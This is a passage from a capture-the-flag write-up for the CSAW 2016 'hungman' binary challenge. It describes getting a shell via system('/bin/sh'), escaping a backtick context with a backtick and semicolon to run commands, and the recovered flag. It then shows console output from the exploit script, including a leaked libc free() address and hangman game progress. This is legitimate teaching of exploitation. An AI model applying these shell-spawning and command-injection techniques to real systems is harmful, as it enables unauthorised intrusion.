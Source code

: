 I have no idea why this happened, as it was clear that system("/bin/sh\x00") was 
called. But if we look at it seems that we're in backtick. So if we write as the
first command a backtick followed by a semicolon we can execute our commands
and get the flag: **flag{this_looks_like_its_a_well_hungman}**

For more details see the exploit file.

### Getting the flag

```
root@nogirl:~/ctf/csaw_16# ./hungman_expl.py 
[+] Winning the game once...
[+] Leaking address of free():  0x7f9776b85a70
___a__________________________________________________a___________________________________________a__a______________________________a_____________a______________________________________________a_______________________________________________________________________________________________a_____
___a___________________b______________________________a___________________________________________a__a______b_______________________a__________bb_a___b____________________b___b_________________abb_____b_______b_____b_______________________________________b________b______________b_________ab____
___a_c___c__c_c________b______________________________a______c_____c______________________c_______a__a______b_______________________a______cc__bb_a___b_____c______________b___b_________________abb_____b____c__b_____b_______________________________________b__c_____b______________b_________ab____
___a_c___c__c_c____d___b_________________________dd___a_____dc___d_c_____________________dc_______a_da______b____d__________________a______cc__bb_a___b_____c______________b___b_________________abb_____b____c__b____db_______________________________________b__c_____b______________b_________ab____
___a_c___c__c_c____d___b_________________________dd_e_a_____dce__d_c____________e________dc_______a_da_e____b____d__________________a______cc__bb_a___b_____c______________b___b_________________abb_____b____c__b____db_______________________________________b__c_____b______________b_________ab____
___a_c___c__c_c____d__fb______f________________f_dd_e_a_____dce__d_c_____f____f_e________dc_______a_da_e____b____d_______________f__a____f_cc__bb_a___b_____c______________b___b___f_____________abb_____b_f__cf_b_f__db____f___________________ff_____________b__c_____b______________b_________ab____
___a_c___c__c_c____d__fb___gg_f_________g______f_dd_e_a_____dce__d_c_____f_gg_f_e________dc_____g_a_da_e____b____d_____g_________f__a____f_cc__bb_a___b_____c______________b_ggb___f__________g__abb_____b_f__cf_b_f__db____f______________g____ff_____________b__c_____b____________g_b______g__ab____
___a_c___c__c_c____d__fb___gg_f_________g__h__hf_dd_e_a_____dce__d_c_____f_gg_f_e_h______dc_____g_a_da_e____b____d_____g_________f__a____f_cc__bb_a_h_b_____c______________b_ggb___f__________g__abb____hb_f__cf_b_f__db___hf______________g_h__ff_h___________b__c____hb___h_______hg_b______g__ab____
___a_c___c__c_c____d__fb___gg_f_i_______g__h__hf_ddie_a___i_dce__d_c___i_f_gg_f_e_h______dc_____g_a_da_e__i_b_i__d_i_i_g_________f__a____f_cc__bb_a_h_b____ic____________i_b_ggb___f_______i__g__abb____hb_fi_cf_b_fi_db___hf______________g_h__ff_h______i___ib__c__i_hb___h_i_____hg_b___i__g_iab_i__
___a_c___c__c_c____d__fbjjjggjfji_______g__h__hf_ddie_a___i_dce__d_cj__i_f_gg_f_e_h______dc_____gja_da_e__ijb_i__d_i_i_g_________f__a____f_cc_jbb_a_h_b____ic____________i_b_ggb___f_______i__g__abb_j__hb_fijcf_b_fi_db___hf______________g_h__ff_h__jj__i___ib__c__i_hb__jh_i_____hg_b___i__g_iab_i__
___a_c___c__c_c___kd__fbjjjggjfji_______g__h__hf_ddie_a___i_dce__dkcj__i_f_gg_f_e_h__k___dc_____gja_dake__ijb_i__d_i_i_g_________f__a____f_cc_jbb_a_hkb_k__ic____________i_b_ggb___f___k___i__g__abb_j__hb_fijcf_b_fi_db___hfk_____k___k___g_h__ff_h__jj__i___ib__c__i_hb__jh_i_____hg_b___i__g_iab_i__
___a_c___c__c_c___kd_lfbjjjggjfji_______g__h__hf_ddie_a___i_dce__dkcjl_i_f_gg_f_e_h__k___dc_____gja_dakel_ijb_i__d_i_i_g____l____f__a____f_cc_jbb_a_hkb_k__icl__l_l______i_b_ggb___f___k___i__g_labb_j__hb_fijcf_b_fi_db___hfk____lk___k___g_h__ff_h__jj__i___ib_lc__i_hb__jh_i_____hg_b___i_lgliab_i__
___a_c___c__c_c___kd_lfbjjjggjfji_______g__h__hfmddie_a___i_dce__dkcjl_i_fmggmf_e_h__k___dc_____gja_dakel_ijb_i__d_i_i_g___ml_m__f__a____f_ccmjbb_a_hkb_k__icl__l_l______i_b_ggbm__f___k___i__g_labb_j__hb_fijcf_b_fi_db___hfk____lkm__k___g_h__ff_h__jj__i___ib_lc__i_hb__jh_i_____hg_b___i_lgliab_imm
___a_c___c__c_c___kd_lfbjjjggjfji_______g_nh__hfmddie_ann_i_dce__dkcjlni_fmggmf_e_h__k___dc____ngja_dakelnijb_i__d_i_i_g___mlnm__fn_a____f_ccmjbb_a_hkb_k__icl_nl_l______i_b_ggbm__f___k___i__g_labb_j__hb_fijcf_b_fi_db___hfkn_n_lkm__k___g_h__ff_h__jj__in__ib_lc__i_hb__jh_i_____hg_b___i_lgliab_imm
__oa_c___c__c_c___kd_lfbjjjggjfji_______g_nh__hfmddie_ann_iodce__dkcjlniofmggmf_e_h__k___dc__o_ngja_dakelnijb_i__d_i_iog___mlnm__fn_a___of_ccmjbboa_hkb_k__icl_nl_l______i_boggbm__f___k___io_g_labb_j__hb_fijcf_b_fi_db___hfkn_n_lkmo_k___g_h__ff_ho_jj__in__ib_lc__i_hb__jh_i_____hg_b___i_lgliaboimm
__oapc___c__c_c___kd_lfbjjjggjfji_______g_nh__hfmddie_annpiodce__dkcjlniofmggmf_e_h__k__pdc__o_ngjapdakelnijbpi_pd_i_iog___mlnm__fn_a___of_ccmjbboa_hkb_k__icl_nl_l___p__i_boggbmp_f___k___io_g_labb_j__hb_fijcf_b_fi_db___hfkn_n_lkmo_k___g_h__ff_ho_jj__in__ib_lc__i_hb__jh_i_____hg_b___i_lgliaboimm
_qoapcq_qc__c_c___kd_lfbjjjggjfji_______gqnh__hfmddie_annpiodce_qdkcjlniofmggmf_e_h_qk__pdc__o_ngjapdakelnijbpi_pd_i_iog___mlnm__fn_a_qqof_ccmjbboa_hkb_k__icl_nl_l___p_qi_boggbmp_fqq_k___io_g_labb_jq_hb_fijcf_b_fi_db___hfkn_n_lkmo_k___g_h__ff_hoqjj__in__ib_lc__i_hb__jh_i_____hg_b__qi_lgliaboimm
```